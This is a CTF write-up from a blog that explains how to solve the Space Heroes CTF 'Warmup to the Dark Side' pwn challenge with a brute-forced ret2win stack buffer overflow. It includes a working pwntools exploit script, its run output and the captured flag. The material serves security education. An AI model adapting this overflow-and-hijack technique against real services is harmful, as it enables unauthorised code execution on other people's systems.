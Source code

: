 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- buffer-overflow
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: /asset/banner/banner-darkside.png
---
```


{% box %}
Once you start down the dark path, forever will it dominate your destiny.  
(And yes, the binary isn't included)  
`nc 0.cloud.chals.io 30096`  
**Author**: v10l3nt
{% endbox %}

Let's run that `netcat` link to see what's going on:

{% ccb html:true wrapped:true %}
<span class="meta prompt_">$ </span>nc 0.cloud.chals.io 30096  
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c  
Jedi Mind tricks dont work on me >>>
{% endccb %}

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

{% ccb lang:py gutter1:1-12 caption:'warmup-to-the-dark-side.py' url:'gist.github.com/jktrn/dd861b378b859a0588b48c71ad9fbf45' url_text:'github gist link' %}
from pwn import *

for i in range(32,128):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
{% endccb %}

Let's run this script on the server to see if we can get the flag:
{% ccb html:true highlight:18 %}
...
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 37 for address 0x55f788f1120c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 38 for address 0x5631d523620c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 39 for address 0x55980d2d520c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 40 for address 0x55f0008b520c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (95B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Jedi Mind tricks dont work on me &gt;&gt;&gt;
    shctf&#123;I_will_remov3_th3s3_restraints_and_leave_the_c3ll&#125;</span>
{% endccb %}

{% flagcounter %}